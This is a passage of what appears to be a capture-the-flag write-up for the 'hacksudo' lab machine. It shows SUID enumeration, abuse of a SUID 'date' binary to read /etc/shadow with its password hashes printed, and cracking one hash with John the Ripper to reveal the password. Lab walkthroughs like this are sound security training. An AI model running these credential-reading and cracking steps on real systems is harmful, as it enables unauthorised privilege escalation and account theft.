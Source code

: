 
#### SUID Permissions
{% highlight sh %}
  www-data@hacksudo:~$ find / -perm -u=s -type f 2>/dev/null
  find / -perm -u=s -type f 2>/dev/null
  /usr/bin/date #<----- Our target
  /usr/bin/pkexec
  /usr/bin/passwd
  /usr/bin/chfn
  ...
  /usr/bin/chsh
  /usr/bin/umount
  /usr/bin/newgrp
{% endhighlight %}

#### GTFOBins - SUID - date

- read `/etc/shadow`

{% highlight sh %}
  www-data@hacksudo:/tmp$ LFILE=/etc/shadow
  LFILE=/etc/shadow
  www-data@hacksudo:/tmp$ date -f $LFILE
  date -f $LFILE
  date: invalid date 'root:$6$N6p.dpWhPYXSXC9U$8EraUiQ5DtMF5ov2ZbnY8DoLK1liRukqhTnTTK67MQ.tgpglkVX/I9P1aYjNeO/cwjQk9lJ/ABd9YLTMeMSn3/:18721:0:99999:7:::'
  date: invalid date 'www-data:*:18714:0:99999:7:::'
  ...
  date: invalid date 'hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1:18721:0:99999:7:::'
  www-data@hacksudo:/tmp$
{% endhighlight %}

#### Crack the hash | John
- crack `hacksudo` password hash
{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ cat hash   
  hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1

  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
  Using default input encoding: UTF-8
  Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
  Cost 1 (iteration count) is 5000 for all loaded hashes
  Press 'q' or Ctrl-C to abort, almost any other key for status
  aliens           (hacksudo)
  1g 0:00:00:06 DONE (2021-04-09 16:23) 0.1490g/s 1144p/s 1144c/s 1144C/s emilee..thesimpsons
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed
{% endhighlight %}
